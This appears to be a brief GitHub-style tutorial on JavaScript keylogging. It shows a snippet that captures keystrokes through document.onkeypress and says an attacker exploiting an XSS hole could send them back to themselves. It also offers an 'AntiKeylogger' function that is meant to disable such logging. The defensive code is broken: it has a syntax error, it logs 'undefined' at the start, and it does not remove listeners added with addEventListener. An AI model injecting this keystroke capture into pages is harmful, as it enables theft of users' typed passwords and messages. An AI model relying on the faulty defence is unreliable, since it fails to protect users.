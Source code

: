 # Keylogging in JavaScript

There has been lot of questions on this, and people are still confused like how to write a keylogger with Javascript, does it work ?
So here it is.. an yes it works, basically it not a magic as such we just exploit the onkeypress() function here. 
If your wesite has an XSS vernuability attacker can attach an listener and send the keystrokes back to the service.

``` javascript
// this will attach a listener to the onkeypress() event
document.onkeypress = function(e){ 
    window.keyp += e.key;  //we store the key into a window variable to create the complete word
    if(e.code === "Space") // we check for when space is pressed to print the word out in console
    { 
        console.log(window.keyp); //print
        window.keyp = ""; // we made the window variable null again
    } 
};

//to overcome this we can have someting as AntiKeylogger and call it when the page is loaded
//disables the keystroke logging 
function AntiKeylogger(){
    window.onkeydown = undefined;
    window.onkeypress = undefined;
    window.onkeyup = undefined;
    document.onkeydown = undefined;
    document.onkeypress = undefined;
    document.onkeyup = undefined;
}();
```
